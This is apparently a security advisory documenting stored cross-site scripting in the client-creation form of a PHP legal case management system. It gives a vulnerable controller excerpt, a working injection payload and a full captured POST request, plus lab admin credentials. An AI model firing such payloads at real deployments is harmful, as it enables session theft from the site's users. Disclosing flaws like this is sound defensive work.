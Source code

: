 ## Legal Case Management System

## XSS on `/admin/clients`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/clients
```

The parameter `f_name` /`m_name` /`l_name` are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

```php
# legalcase/app/Http/Controllers/Admin/ClientController.php
8 use App\Model\AdvocateClient;
81 $customcollections = AdvocateClient::when($search, function ($query, $search) {
82            return $query->where('first_name', 'LIKE', "%{$search}%");
83 });
84
85 $totalFiltered = $customcollections->count();
86 $customcollections = $customcollections->offset($start)->limit($limit)->orderBy($order, $dir)->get();
87 $data = [];
88 foreach ($customcollections as $key => $item) {
102 	$row['first_name'] = '<a class="title text-primary" href="' . $show . '">' . $item->full_name . '</a>';
```

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/clients HTTP/1.1
Host: 192.168.150.131
Content-Length: 1040
Cache-Control: max-age=0
Origin: http://192.168.150.131
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/admin/clients/create
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IlVoZDlHMGhkU1dnWXYrXC9cL0s2M3EyZz09IiwidmFsdWUiOiJhOFwvR0J6bW1IbkJWdUZIbmNTUlgrWU5uMDgyODVESmxXTU1WMDY4SnByZzg4dVlYdWxhQ0NhdUlUTHhWUFwvK3MiLCJtYWMiOiI3ZDE3M2M5NjJkYTYyYzU5NzFlNGIzMWQ0MDBkZTQxZGI4ZjMxNzM1M2I4YjhhNjVkM2M4YTAyNDRjZmM5OTFhIn0%3D; test_session=eyJpdiI6IlBlMFByaEJJc05RVEc3ME1ueXZzM2c9PSIsInZhbHVlIjoiRUR0N01EajFFaUtpZksxWUc1OG5OYmUxMHY4K0Rld09YRFdnNGNxRnpjNmtybm9helwvVklCcytcL1Q2OEpOZkF6IiwibWFjIjoiMjg2ZjM3NmIwNjg4NGIzNmJiOTQ0OWI3OTJjM2IwYmYxMDRhYjQwMzA3YmFhNmZkMjVjYzEyZTM1NjJlNWZjMCJ9
Connection: close

_token=8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU&f_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&m_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&l_name=%3Cimg+src%3D1+onerror%3D%22alert%28document.cookie%29%22%3E&gender=Male&email=111%40qq.com&mobile=3541620469&alternate_no=1234567890&address=1&country=5&state=170&city_id=6450&reference_name=2&reference_mobile=1132432445&type=single&group-a%5B0%5D%5Bfirstname%5D=&group-a%5B0%5D%5Bmiddlename%5D=&group-a%5B0%5D%5Blastname%5D=&group-a%5B0%5D%5Bmobile_client%5D=&group-a%5B0%5D%5Baddress_client%5D=&group-b%5B0%5D%5Bfirstname%5D=&group-b%5B0%5D%5Bmiddlename%5D=&group-b%5B0%5D%5Blastname%5D=&group-b%5B0%5D%5Bmobile_client%5D=&group-b%5B0%5D%5Baddress_client%5D=&group-b%5B0%5D%5Badvocate_name%5D=&route-exist-check=http%3A%2F%2F192.168.150.131%2Fadmin%2Fcheck_client_email_exits&token-value=8LEGiyeCCsDsPjd91fKMYM2hrKU4RdTG2Pyk5zMU
```

### Screenshot

![image-20240508213517998](./screenshot/image-20240508213517998.png)
